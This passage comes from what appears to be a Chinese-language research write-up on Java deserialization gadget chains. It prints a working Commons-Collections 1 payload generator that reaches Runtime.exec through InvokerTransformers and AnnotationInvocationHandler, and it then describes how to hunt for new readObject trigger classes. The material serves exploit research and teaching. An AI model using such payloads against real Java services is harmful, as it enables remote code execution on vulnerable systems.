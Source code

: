```
public static void generatePayload1() throws Exception `{`
    Transformer[] transformers = new Transformer[] `{`
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] `{`
            String.class,
            Class[].class
        `}`,
        new Object[] `{`
            "getRuntime",
            new Class[0]
        `}`),
        new InvokerTransformer("invoke", new Class[] `{`
            Object.class,
            Object[].class
        `}`,
        new Object[] `{`
            null,
            new Object[0]
        `}`),
        new InvokerTransformer("exec", new Class[] `{`
            String.class
        `}`,
        new Object[] `{`
            "calc"
        `}`)
    `}`;

    Transformer transformerChain = new ChainedTransformer(transformers);
    Map innermap = new HashMap();
    innermap.put("value", "value");

    Map payloadMap = TransformedMap.decorate(innermap, null, transformerChain);
    //在反序列化时，利用AnnotationInvocationHandler类的readObject触发
    Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor m_ctor = cls.getDeclaredConstructor(Class.class, Map.class);
    m_ctor.setAccessible(true);
    Object payload_instance = m_ctor.newInstance(Retention.class, payloadMap);
    MySerializeUtil.serializeToFile(payload_instance, "CommonsCollections1Test1.ser");
`}`
```



## 三、新利用链挖掘

与其说是新利用链的挖掘，不如说新的触发点的寻找，上面两个利用链的漏洞触发类分别是JDK中的AnnotationInvocationHandler和BadAttributeValueExpException，在分析完上面两中利用链流程后，为了检验自己的认识水平，就想尝试自己寻找一个触发点。

寻找触发点唯一原则就是寻找一个实现了readObject()函数的类，并且在readObject()函数中执行了一定的操作。按照这个思路，先在idea中全局搜索readObject()函数

[![](https://p2.ssl.qhimg.com/t012423f256650a8422.png)](https://p2.ssl.qhimg.com/t012423f256650a8422.png)
